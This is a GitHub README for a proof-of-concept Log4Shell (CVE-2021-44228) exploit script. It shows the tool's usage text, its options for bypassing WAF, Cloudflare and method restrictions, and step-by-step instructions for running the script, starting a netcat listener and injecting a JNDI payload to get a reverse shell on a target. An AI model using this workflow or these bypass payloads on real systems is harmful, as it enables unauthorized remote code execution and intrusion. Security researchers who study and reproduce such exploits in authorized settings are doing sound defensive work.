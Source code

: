# Log4j Simple Exploit
A Proof-Of-Concept Exploit for ***CVE-2021-44228*** vulnerability.

Log4j, which is used to log security and performance information, impacts upwards of 3 billion devices that use Java across a variety of consumer and enterprise services, websites and applications, as well as medical devices and supporting systems.<br>
***Note: This is not a "point and click" exploit. The initial trigger payload will be generated, but injecting it into the appropriate place (i.e. HTTP header/chat/etc.) will be up to the user.***

## Prerequisite's
- python3
- pip install -r requirements.txt
- Install [jdk1.8.0_20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and add bin folder to enviroment variable

```
usage: python CVE-2021-44228-exploit.py --help 
[!] CVE: CVE-2021-44228
[!] This is simple Log4j exploit to get reverse shell
[!] Reference: https://akashpatil.me/log4j-guide-book.html

usage: CVE-2021-44228-exploit.py [-h] [--userip userip] [--webport webport] [--lport lport] [-b bypass]

log4shell Reverse shell exploit

optional arguments:
  -h, --help            show this help message and exit
  --userip userip       Enter IP for LDAPRefServer & Shell
  --webport webport     listener port for HTTP port
  --lport lport         Netcat Port
  -b bypass, --bypass bypass
                        Type of bypass payload. None/WAF/Methods/Cloudflare. Methods - "ldap", "jndi", or the
                        ${lower:x} method restriction bypass
```

##### Example:
1) Run the script for Linux OS with bypass payload of method
```
python poc-csw.py --userip private-ip --webport 8888 --lport 9001 -b methods
```
![](images/img1.png)
2) run netcat on port 9001 in your local machine 
```
nc -lvnp 9001
```
3) Copy the 'Try me' payload to bypass methods restriction and use it input variable to get shell in netcat<br>
***Note:*** If No bypass is chosen use 'Send me' payload
![](images/img2.png)
![](images/img3.png)


# Reference
- https://akashpatil.me/log4j-guide-book.html
- https://github.com/kozmer/log4j-shell-poc
